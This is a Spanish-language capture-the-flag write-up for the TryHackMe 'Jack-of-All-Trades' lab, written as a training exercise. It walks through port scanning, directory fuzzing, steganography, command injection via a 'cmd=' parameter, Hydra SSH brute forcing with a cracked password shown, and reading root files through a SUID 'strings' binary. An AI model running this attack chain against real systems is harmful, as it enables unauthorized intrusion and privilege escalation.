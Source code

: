 ```yaml
---
layout: single
title: Jack-of-All-Trades
excerpt: "Boot-to-root originally designed for Securi-Tay 2020"
date: 2022-05-04
classes: wide
header:
  teaser: /assets/images/thm-writeup-jack-of-all-trades/jack_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - Web
  - Javascript
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_logo1.png)

[Link](https://tryhackme.com/room/jackofalltrades "Jack")

Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

---

## 1. Fase de reconocimiento

- Para conocer a que nos estamos enfrentando lanzamos el siguiente comando:

```css
ping -c 1 {ip}
```

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_ping.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los **_65535_** puertos de red el cual guardamos en un archivo en formato **_nmap_** con el siguiente comando:

```css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip} -oN allports
```

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_nmap.png)

---

- De acuerdo con el escaneo anterior, se encuentran los siguientes puertos abiertos; 22 (http) y 80 (htp), como se observa el puerto **22** esta resolviendo http, lo cual nos puede traer inconvenientes en fututo.

- Escaeno de vulnerabilidades sobre los puertos abiertos:

```css
nmap -v -A -sC -sV -Pn {ip} -p22,80 --script vuln
```

- Utilizamos **whatweb** con la {ip} sobre los puertos 22 y 80, sobre el puerto 80 nos genera error en su lugar en el pueroto 22 nos listó la siguiente información:

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_whatweb.png)

---

- Abrimos una nueva pestaña, en la cual escribimos lo siguiente en la barra de navegación: **about:config** y agregamos la siguiente entrada **network.security.ports.banned.override** sobre el puerto **22**, de acuerdo con la siguiente referencia <https://support.mozilla.org/en-US/questions/1083282>

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_web2.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

```css
└─# wfuzz --hc=404,273 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.68.28:22//FUZZ/
```

- Con el anterior escaner encotramos las siguientes rutas:
  - "assets"

![assets](/assets/images/thm-writeup-jack-of-all-trades/jack_assets.png)

- Al revisar esta ruta nos encotramos con 3 imagenes y una hoja de estilos css, llama la atención el archivo **stego.jpg**, en clara referencia a información oculta con esteganografía.

## 4. GOBUSTER

- Escaneo de subdominios con esta herramienta

```css
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.68.28:22 -x txt,py,php,js

```

- Con el anterior escaner encotramos las siguientes rutas:
  - "assets"
  - "recovery.php"

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_login.png)

---

## 5 Steganografía

- Inspeccionando el código de la página y nos encontramos con el siguiente código que está códificado en base 64, el cual procedemos a decodificar y nos encontramos con una contraseña:

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_64decode.png)

---

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_64decode_burp.png)

---

- Con la contraseña encontrada procedemos a desencriptar los mensajes en las imagenes y encontramos lo siguiente:

![steg1](/assets/images/thm-writeup-jack-of-all-trades/jack_steg1.png)

---

![steg1](/assets/images/thm-writeup-jack-of-all-trades/jack_steg2.png)

---

- Con el usuario y contraseña encontrados nos autenticamos en "recovery.php" y nos entrega el siguiente mensaje:

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_login1.png)

- Analizando este mensaje encontramos que podemos realizar ejecución remota de comando.

## 6. Burpsuite

- De acuerdo con la información anterior procedemos a modificar la cabecera de está manera **/nnxhweOV/index.php?cmd=id** y obtenemos la siguiente respuesta:

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_burp1.png)

---

## 7. Hydra

```css
┌──(root㉿bogsec)-[/home/ocortesl/THM/Jack/exploit]
└─# hydra -l jack -P dic.txt -s 80 ssh://10.10.68.28 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-04 20:15:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.68.28:80/
[80][ssh] host: 10.10.68.28   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-05-04 20:15:23
```

## 8. Bandera usuario

- Compartimos un servidor por el puerto **8080** y accedemos a la dirección desde el navegador y observamos el **index** y en este el archivo **user.jpg**, como se observa a continuación:
  
![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_user1.png)

---

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_user.png)

---

## 9. Bandera root

- Procedemos a investigar que vulnerabilidad podemos aprovechar para escalar privilegios con el siguiente comnando:

```css
jack@jack-of-all-trades:/tmp$ find / -user root -perm /4000 -exec ls -l {} \; 2>/dev/null
```

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_strings.png)

- Consultamos en <https://gtfobins.github.io/gtfobins/strings/> y encontramos que podemos leer archivos saltando los privilegios root.

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_gtfo.png)

```css
jack@jack-of-all-trades:/$ strings /root/root.txt     
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: //////_{????????}

```

---

Fuentes:

- Gtfobins:
<https://gtfobins.github.io/gtfobins/strings/>

- Writeup
<https://fr33s0ul.tech/jack-of-all-trades-tryhackme-write-up/>
